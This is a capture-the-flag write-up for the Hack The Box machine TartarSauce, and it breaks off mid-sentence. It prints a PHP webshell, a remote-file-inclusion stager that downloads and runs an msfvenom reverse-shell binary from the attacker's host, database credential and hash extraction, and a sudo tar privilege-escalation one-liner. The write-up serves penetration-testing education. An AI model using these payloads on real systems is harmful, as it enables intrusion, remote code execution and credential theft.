# [TartarSauce](https://app.hackthebox.eu/machines/138)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.88 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.88 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.88
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.88
```

The TCP quick scan returns the following:



Start with a scan of the website:

```bash
nikto -h http://10.10.10.88/ -C all --maxtime=120s --output=nikto.txt
```



Then browse to the site manually:

```bash
firefox http://10.10.10.88/
```



This looks custom. The output from `nikto` says the website has a `robots.txt`. Browsing to `http://10.10.10.88/robots.txt` shows the following:

```
User-agent: *
Disallow: /webservices/tar/tar/source/
Disallow: /webservices/monstra-3.0.4/
Disallow: /webservices/easy-file-uploader/
Disallow: /webservices/developmental/
Disallow: /webservices/phpmyadmin/
```

Browsing to all the links only shows that `http://10.10.10.88/webservices/monstra-3.0.4/` returns a valid webpage:



Looking at the HTML source of the webpage shows the following link:



The page `http://10.10.10.88/webservices/monstra-3.0.4/admin/` shows the following:



This looks like a template for some WordPress-like webpage. Try some basic logins:

```
admin/admin
admin/password
root/password
```

And `admin/admin` works!



The link for Upload File looks juicy. Try uploading a PHP webshell since looking at the PHP source shows PHP page links:

```bash
echo '<?php echo shell_exec($_REQUEST["c"]); ?>' > bubba.php
```

However, this returns a `Forbidden file type` error? Maybe there is a way to bypass this? Since the Website has the version name printed everywhere, look for an exploit:

```bash
searchsploit monstra
```



Exploit 43348 looks like a winner:

- https://www.exploit-db.com/exploits/43348

The exploit walks through the bug in the following GitHub page:

- https://github.com/monstra-cms/monstra/blob/1ff51860eaba83e8ab91d5deb1d6b157e0847455/plugins/box/filesmanager/filesmanager.admin.php

The code only checks for lowercase names. This means uploading a `bubba.PHP` will work. Trying this this results in the same error? After messing aroun with the webpage, it seems like the permissions of the current Apache process do not have permissions to modify/create/delete files... Maybe this is just a distraction? Try looking for other services in the 2 known directories:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -q -z -o gobuster.webservices.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u http://10.10.10.88/webservices/ &
gobuster dir -t 50 -q -z -o gobuster.main.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u http://10.10.10.88/ &
```

This returns an interesting result under `webservices`:

```
/wp (Status: 301)
```

Browsing to that shows the following:



Looking at the page souce shows some links to WordPress?



But the website looks broken (many of the CSS/JS links are broken?). Try to enumerate for other files & directories:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -q -z -o gobuster.wp.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u http://10.10.10.88/webservices/wp/ &
```

While that runs, also enumerate for any interesting plugins or vulnerabilities:

```bash
wpscan --update \
       --url http://10.10.10.88/webservices/wp/ \
       --enumerate ap,at,cb,dbe \
       --detection-mode aggressive \
       --random-user-agent \
       --plugins-detection aggressive \
       --plugins-version-detection aggressive
```

This has some interesting results:



Try looking for exploits for the plugins:

```bash
searchsploit akismet
searchsploit gwolle
```



This looks promising:

- https://www.exploit-db.com/exploits/38861

The exploit claims a PHP RFI at the following URL for the `wp-load.php` page:

```
http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]
```

This is easy to test:

```bash
sudo python3 -m http.server 80
curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.25/
```

Running this `curl` shows the following remote request:



That is valid code execution. Use it to get a reverse shell on the target:

```bash
# make shell and PHP stager
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
cat <<END>>wp-load.php
<?php
  shell_exec('wget -O /dev/shm/bubba.elf 10.10.14.25/bubba.elf');
  shell_exec('chmod +x /dev/shm/bubba.elf');
  shell_exec('/dev/shm/bubba.elf');
?>
END
# start listeners
nc -nvlp 6969
sudo python3 -m http.server 80
# send RFI request for stager
curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.25/
```

And this returns a shell but not `user.txt`:



After connecting, since there is a WordPress instance, get the MySQL DB password and try to crack any password hashes for the WordPress instance and check for password re-use:

```bash
find / -iname wp-config.php 2>/dev/null
cat /var/www/html/webservices/wp/wp-config.php | grep define
```



Now connect to the database:

```bash
mysql -u wpuser -p'w0rdpr3$$d@t@b@$3@cc3$$' -h 127.0.0.1
```

Then extract the password hash and username as follows:

```mysql
SELECT schema_name FROM information_schema.schemata;
SELECT table_name FROM information_schema.tables WHERE table_schema = 'wp';
SELECT column_name FROM information_schema.columns WHERE table_name = 'wp_users';
SELECT user_login,user_pass FROM wp.wp_users;
```



Now try to crack this password as follows:

```bash
echo '$P$BBU0yjydBz9THONExe2kPEsvtjStGe1' > wp.hash
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
hashcat -m 400 -a 0 --quiet --potfile-disable wp.hash rockyou.txt
```

But this does not provide any easy wins... Next it seems like the `www-data` user has sudo permissions:



`tar` is a known binary for PE:

- https://gtfobins.github.io/gtfobins/tar/

Use the following command to move laterall to the user `onuma`:

```bash
sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

And this gets `user.txt`:



Looking for files owned by this user gives some interesting hints:

```bash
find / -user onuma -exec ls -lad {} \; 2>/dev/null | grep -v '/proc'
```



The file `onuma_backup_test.txt` has some interesting text:



It seems like there is something running in the background... Maybe it is running as `root`? Try to find files for this background task:

```bash
find / -iname *backuperer* -exec ls -lad {} \; 2>/dev/null
```

This returns the following interesting files:

```
/lib/systemd/system/backuperer.service
/lib/systemd/system/backuperer.timer
/usr/sbin/backuperer
```

`backuperer.service` is a systemd service that calls the `/usr/sbin/backuperer` binary. Download and examine the binary on Kali:

```bash
# run on kali
sudo python3 -m pyftpdlib -p 21 -w
# run on target
cd /dev/shm/
cp /usr/sbin/backuperer .
ftp 10.10.14.25
mode binary
put backuperer
```

It seems like the file is just a Bash script:

```bash
#!/bin/bash
#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------
# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check
# formatting
printbdr()
    for n in $(seq 72);
    do /usr/bin/printf $"-";
    done
bdr=$(printbdr)
# Added a test file to let us see when the last backup was run
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg
# Cleanup from last time.
/bin/rm -rf $tmpdir/.* $check
# Backup onuma website dev files.
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &
# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30
# Test the backup integrity
integrity_chk()
    /usr/bin/diff -r $basedir $check$basedir
/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
```

With this being a Bash script that is likely running as `root`, there are a few things to look at first:

- Is there a possibility for `PATH` injection? Since all the binaries in the file have full paths specified, and `echo $PATH` does not list `.`, this is not the way...
  - https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/
- Since the script is running `tar`, is there a possibility for wildcard exploitation? The `tar` commands do not use wildcards. The `rm` commands use wildcards in the `/var/tmp` directory though. This means it is possible inject command line parameters into the `rm` command, but that is not helpful to get to `root`...
  - https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/
  - https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt

From here, looking at the script, it takes a backup of `/var/www/html` and saves it to `/var/tmp/`. Then, after 30 seconds, it extracts the archive to `/var/tmp/check` to run `diff` and report any files with different values to `/var/backups/onuma_backup_error.txt`. Maybe it is possible to abuse this process by making a symlink to a protected systemfile and have `root` archive it and `diff` it? Then, since the file wont match, have the private system file's contents be written to `/var/backups/onuma_backup_error.txt` by `diff` as `root`? See if there are any writable folders/files in `/var/www/html`:

```bash
find /var/www/html/ -perm -o x -type d -exec ls -lad {} \; 2>/dev/null
find /var/www/html/ -xdev -type f \( -perm -0002 -a ! -perm -1000 \) -print 2>/dev/null
```

This only returns 2 files:

```
